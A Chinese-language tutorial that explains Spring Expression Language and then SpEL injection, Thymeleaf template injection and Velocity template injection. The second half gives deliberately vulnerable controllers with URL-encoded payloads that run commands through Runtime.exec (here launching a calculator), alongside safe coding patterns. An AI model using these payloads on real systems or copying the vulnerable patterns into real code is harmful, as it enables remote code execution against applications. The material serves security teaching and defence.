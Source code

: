 # SpEL表达式注入
# SpEL简介
在Spring 3中引入了Spring表达式语言（Spring Expression Language，简称SpEL），这是一种功能强大的表达式语言，支持在运行时查询和操作对象图，可以与基于XML和基于注解的Spring配置还有bean定义一起使用。
## SpEL定界符
SpEL使用```#{}```作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。这里需要注意#{}和${}的区别：
* ```#{}```就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
* ```${}```主要用于加载外部属性文件中的值；
* 两者可以混合使用，但是必须```#{}```在外面，```${}```在里面，如```#{'${}'}```，注意单引号是字符串类型才添加的；
## SpEL表达式类型
### 字面值
最简单的SpEL表达式就是仅包含一个字面值, 注意若是指定为字符串的话需要添加单引号括起来,Java基本数据类型都可以出现在SpEL表达式中。
```xml
<!--数字-->
<property name="message1" value="#{996}"/>
<!--字符-->
<property name="message2" value="#{'hello world'}"/>
<property name="salary" value="#{1e4}"/>
<!--与字符串混用-->
<property name="message" value="the value is #{996}"/>
```
### 引用Bean、属性和方法
```xml
类属性
#{Person.name}
类方法
#{Person.HelloWorld()}
函数
#{'Guoke'.toLowerCase()}
异常处理: ?.符号会确保左边的表达式不会为null，如果为null的话就不会调用toUpperCase()方法了
#{Person.HelloWorld()?.toUpperCase()}
```
### 类类型表达式T(Type)
在SpEL表达式中，使用T(Type)运算符会调用类的作用域和方法。换句话说，就是可以通过该类类型表达式来操作类。使用T(Type)来表示java.lang.Class实例，Type必须是类全限定名，但”java.lang”包除外，因为SpEL已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。
在XML配置文件中的使用示例，要调用java.lang.Math来获取0~1的随机数：
```xml
<property name="random" value="#{T(java.lang.Math).random()}"/>
```
## SpEL用法
SpEL的用法有三种形式，一种是在注解@Value中；一种是XML配置；最后一种是在代码块中使用Expression。
### XML配置用法
前面的就是以XML配置为例对SpEL表达式的用法进行的说明；
### 注解用法
而注解@Value的用法例子如下：
```java
public class EmailSender {
    @Value("${spring.mail.username}")
    private String mailUsername;
    @Value("#{ systemProperties['user.region'] }")    
    private String defaultLocale;
    //...
}
```
### 代码中使用Expression
SpEL 在求表达式值时一般分为四步，其中第三步可选：首先构造一个解析器，其次解析器解析字符串表达式，在此构造上下文，最后根据上下文得到表达式运算后的值。
```java
// 创建解析器：SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；
ExpressionParser parser = new SpelExpressionParser();
// 解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象；
Expression expression = parser.parseExpression("('Hello' + ' world').concat(#end)");
// 构造上下文：准备比如变量定义等等表达式需要的上下文数据；
EvaluationContext context = new StandardEvaluationContext();
context.setVariable("end", "!");
//求值：通过 Expression 接口的 getValue 方法根据上下文获得表达式值；
System.out.println(expression.getValue(context));
// 输出： Hello world!
```
主要接口
* ExpressionParser 接口：表示解析器，默认实现是 org.springframework.expression.spel.standard 包中的 SpelExpressionParser 类，使用 parseExpression 方法将字符串表达式转换为 Expression 对象，对于 ParserContext 接口用于定义字符串表达式是不是模板，及模板开始与结束字符；
* EvaluationContext 接口：表示上下文环境，默认实现是 org.springframework.expression.spel.support 包中的 StandardEvaluationContext 类，使用 setRootObject 方法来设置根对象，使用 setVariable 方法来注册自定义变量，使用 registerFunction 来注册自定义函数等等。
* Expression 接口：表示表达式对象，默认实现是 org.springframework.expression.spel.standard 包中的 SpelExpression，提供 getValue 方法用于获取表达式值，提供 setValue 方法用于设置对象值。

# SpEL表达式注入漏洞
漏洞原理
SimpleEvaluationContext和StandardEvaluationContext是SpEL提供的两个EvaluationContext：
* SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
* StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext旨在仅支持SpEL语言语法的一个子集，不包括 Java类型引用、构造函数和bean引用；而StandardEvaluationContext是支持全部SpEL语法的。
由前面知道，SpEL表达式是可以操作类及其方法的，可以通过类类型表达式T(Type)来调用任意类方法。这是因为在不指定EvaluationContext的情况下默认采用的是StandardEvaluationContext，而它包含了SpEL的所有功能，在允许用户控制输入的情况下可以成功造成任意命令执行。
## Thymeleaf模板注入分析
参考：https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
```java
//GET /path?lang=en HTTP/1.1
//GET /path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}

// thymeleaf 在解析包含 :: 的模板名时，会将其作为表达式去进行执行
//GET /fragment?section=main
//GET /fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}

//如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析.
// /doc/__$%7BT(java.lang.Runtime).getRuntime().exec("calc")%7D__::.x
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
    //returns void, so view name is taken from URI
}
```
正确使用方式：
```java
// 设置ResponseBody注解,如果设置ResponseBody，则不再调用模板解析
@GetMapping("/safe/fragment")
@ResponseBody
public String safeFragment(@RequestParam String section) {
    return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
}

//设置redirect重定向，如果名称以redirect:开头，则不再调用ThymeleafView解析，调用RedirectView去解析controller的返回值
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //FP as redirects are not resolved as expressions
}

//由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
// 其他
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
    <a th:href="@{__${message}__}" th:title="${message}">
</div>
```
## SSTI of Java velocity
```java
// /velocity?template=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc.exe%22)
@GetMapping("/velocity")
public void velocity(String template) {
    Velocity.init();
    VelocityContext context = new VelocityContext();
    context.put("author", "Elliot A.");
    context.put("address", "217 E Broadway");
    context.put("phone", "555-1337");
    StringWriter swOut = new StringWriter();
    Velocity.evaluate(context, swOut, "test", template);
}
```
http://rui0.cn/archives/1043
https://guokeya.github.io/post/413GsNWtr/
https://mrbird.cc/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F.html
https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/